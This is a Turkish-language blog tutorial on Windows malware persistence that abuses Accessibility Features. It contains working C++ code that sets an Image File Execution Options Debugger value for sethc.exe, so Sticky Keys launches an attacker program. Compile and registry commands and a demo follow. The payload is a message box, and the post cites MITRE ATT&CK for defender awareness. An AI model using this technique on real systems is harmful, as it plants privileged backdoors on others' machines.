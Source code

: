\newpage
\subsection{78. zararlı yazılım geliştirme: kalıcılık - bölüm 12. Erişilebilirlik Özellikleri. Basit C++ örneği.}

﷽

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

Bu gönderi, erişilebilirlik özellikleri aracılığıyla yönetici düzeyinde bir başka zararlı yazılım kalıcılığı tekniği üzerine yaptığım araştırmaların bir sonucudur.    

[Önceki](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) gönderilerimden birinde, Image File Execution Options aracılığıyla kalıcılığı ele almıştım. Bir PoC (Proof of Concept) örneğinde, yalnızca aşağıdaki kayıt defteri anahtarında bir hata ayıklayıcı oluşturarak hedef süreci manipüle etmiştik:   

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

Daha sonra, yalnızca kötü amaçlı uygulamanın `System32` dizinine yerleştirilmesi yeterli oluyordu.    

### pratik örnek: sethc.exe

Bugün, hedef sürecimizi `sethc.exe` ile değiştireceğiz. Peki, `sethc.exe` nedir?
Bu dosya, yapışkan tuşlar özelliğinden sorumludur. `Shift` tuşuna `5` kez basıldığında, bu özellik etkinleşir.    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Orijinal `sethc.exe` yerine, sahte `sethc.exe` çalıştırılacaktır. Her zamanki gibi, basitlik açısından bu yalnızca bir "meow" mesaj kutusudur.Kaynak kodu oldukça benzerdir (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Meow-meow mesaj kutusu:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### demo

Haydi, her şeyin nasıl çalıştığını görelim. Öncelikle, kayıt defteri anahtarlarını kontrol edelim:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

`pers.cpp` dosyamızı derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    


Çalıştırın ve kayıt defteri anahtarlarını tekrar kontrol edin:    

> **Gerçek Windows ikili dosyasını değiştirmek için yönetici ayrıcalıklarına sahip olmanız gerekir.**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Son olarak, `Shift` tuşuna `5` kez basın:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

`hack.exe` dosyasının özelliklerine dikkat edin:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Mükemmel! =^..^=    

Deneylerin sonunda temizleme işlemi için şu komutu çalıştırın:    

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### sonuç

Windows Erişilebilirlik Özellikleri, Windows oturum açma ekranı üzerinden erişilebilen yardımcı programlar koleksiyonudur (örneğin, Sticky Keys).   

Bazı erişilebilirlik özellikleri, bunların tetikleme kombinasyonları ve konumları şunlardır:      

**1. Utility Manager**     
- `C:\Windows\System32\Utilman.exe`     
- Tetikleyici: `Windows tuşu + U`      

**2. Ekran Klavyesi**     
- `C:\Windows\System32\osk.exe`      
- Tetikleyici: Ekran klavyesi düğmesine tıklamak     

**3. Büyüteç**   
- `C:\Windows\System32\Magnify.exe`     
- Tetikleyici: `Windows Tuşu + =`        

**4. Ekran Okuyucu**       
- `C:\Windows\System32\Narrator.exe`    
- Tetikleyici: `Windows Tuşu + Enter`    

**5. Ekran Değiştirici**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Tetikleyici: `Windows Tuşu + P`    

Bu Windows özellikleri, APT gruplarının hedef bilgisayarlara arka kapı yerleştirmek için bunları kötüye kullanmasıyla iyi bilinir hale gelmiştir. Örneğin, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) ve [APT41](https://attack.mitre.org/groups/G0096/) grupları Sticky Keys yöntemini kullanmıştır.    

Umarım bu gönderi, mavi takım üyelerinin bu ilginç teknik hakkında farkındalığını artırır ve kırmızı takım üyelerinin cephaneliğine bir silah daha ekler.      

[MITRE ATT&CK. Event Tetikleyicied Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      

